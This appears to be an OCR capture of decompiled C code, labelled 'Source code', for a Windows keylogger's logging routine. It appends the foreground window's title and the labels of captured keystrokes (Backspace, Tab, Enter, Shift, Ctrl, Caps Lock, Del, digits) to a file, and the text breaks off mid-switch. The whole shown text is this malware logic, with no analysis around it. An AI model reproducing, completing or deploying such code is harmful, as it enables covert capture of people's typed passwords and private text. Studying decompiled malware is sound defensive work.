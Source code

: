 ```
HANDLE __cdecl sub_4010C7(int Buffer)
{
  HANDLE result; // eax
  HWND v2; // eax
  DWORD v3; // eax
  DWORD v4; // eax
  DWORD v5; // eax
  HANDLE hFile; // [esp+4h] [ebp-8h]
  DWORD NumberOfBytesWritten; // [esp+8h] [ebp-4h] BYREF

  NumberOfBytesWritten = 0;
  result = CreateFileA(FileName, 0x40000000u, 2u, 0, 4u, 0x80u, 0);
  hFile = result;
  if ( result != (HANDLE)-1 )
  {
    SetFilePointer(result, 0, 0, 2u);
    v2 = GetForegroundWindow();
    GetWindowTextA(v2, Str2, 1024);
    if ( strcmp(Str1, Str2) )
    {
      WriteFile(hFile, aWindow, 0xCu, &NumberOfBytesWritten, 0);
      v3 = strlen(Str2);
      WriteFile(hFile, Str2, v3, &NumberOfBytesWritten, 0);
      WriteFile(hFile, asc_40503C, 4u, &NumberOfBytesWritten, 0);
      strncpy(Str1, Str2, 0x3FFu);
      byte_40574F = 0;
    }
    if ( (unsigned int)Buffer < 0x27 || (unsigned int)Buffer > 0x40 )
    {
      if ( (unsigned int)Buffer <= 0x40 || (unsigned int)Buffer >= 0x5B )
      {
        switch ( Buffer )
        {
          case 8:
            v4 = strlen(aBackspace);
            WriteFile(hFile, aBackspace_0, v4, &NumberOfBytesWritten, 0);
            break;
          case 9:
            WriteFile(hFile, aTab, 5u, &NumberOfBytesWritten, 0);
            break;
          case 13:
            WriteFile(hFile, aEnter, 8u, &NumberOfBytesWritten, 0);
            break;
          case 16:
            WriteFile(hFile, aShift, 7u, &NumberOfBytesWritten, 0);
            break;
          case 17:
            WriteFile(hFile, aCtrl, 6u, &NumberOfBytesWritten, 0);
            break;
          case 20:
            v5 = strlen(aCapsLock);
            WriteFile(hFile, aCapsLock_0, v5, &NumberOfBytesWritten, 0);
            break;
          case 32:
            WriteFile(hFile, asc_405074, 1u, &NumberOfBytesWritten, 0);
            break;
          case 46:
            WriteFile(hFile, aDel, 5u, &NumberOfBytesWritten, 0);
            break;
          case 96:
            WriteFile(hFile, a0, 1u, &NumberOfBytesWritten, 0);
            break;
          case 97:
```